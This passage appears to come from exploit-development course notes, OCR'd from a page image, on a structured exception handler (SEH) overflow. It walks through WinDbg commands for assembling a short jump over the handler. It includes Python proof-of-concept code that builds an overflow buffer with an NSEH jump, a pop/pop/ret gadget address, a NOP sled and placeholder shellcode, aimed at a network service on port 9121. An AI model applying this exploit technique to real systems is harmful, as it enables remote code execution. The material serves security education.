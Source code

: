 Island-Hopping in Assembly
Let's inspect the resulting assembly instruction inside WinDbg.

	u eip L8
	dd 0x43431015 L4
	
After single-stepping through the P/P/R instructions, we will use the a2 command to assemble the short jump and obtain its opcodes:
	r
	dds eip L4
	a
	jmp 0x018fff5c
	u eip L1
	dds eip L4
	
As shown in the listing above, the offset for the jump is six bytes rather than four (the length of the P/P/R address). This is because the offset is calculated from the beginning of the jump instruction, which includes the 0xEB and the offset itself.
Now that we have the short jump, let's update our proof of concept to include it:
	try:
	  server = sys.argv[1]
	  port = 9121
	  size = 1000
	
	  inputBuffer = b"\x41" * 124
	  inputBuffer+= pack("<L", (0x06eb9090))  # (NSEH)
	  inputBuffer+= pack("<L", (0x1015a2f0))  # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
	  inputBuffer+= b"\x41" * (size - len(inputBuffer))
	
Now rerun, set bp on the ppr again and let the debugger continue until it hits our breakpoint. Next, we'll single-step through the POP, POP, RET instructions and reach our short jump:
	r
	t
	t
	dd 0132ff5e - 0x06
	
The listing above confirms that if we execute the short jump, we will indeed land in our buffer right after the SEH.

After carefully reviewing the memory pointed to by the instruction pointer, we notice that we are very close to reaching the beginning of our stack, as shown below:


Before searching, let's update our proof of concept and add a shellcode variable containing dummy shellcode:
	...
	try:
	  server = sys.argv[1]
	  port = 9121
	  size = 1000
	
	  shellcode = b"\x43" * 400
	
	  inputBuffer = b"\x41" * 124
	  inputBuffer+= pack("<L", (0x06eb9090))  # (NSEH)
	  inputBuffer+= pack("<L", (0x1015a2f0))  # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
	  inputBuffer+= b"\x90" * (size - len(inputBuffer) - len(shellcode))
	  inputBuffer+= shellcode
	...
	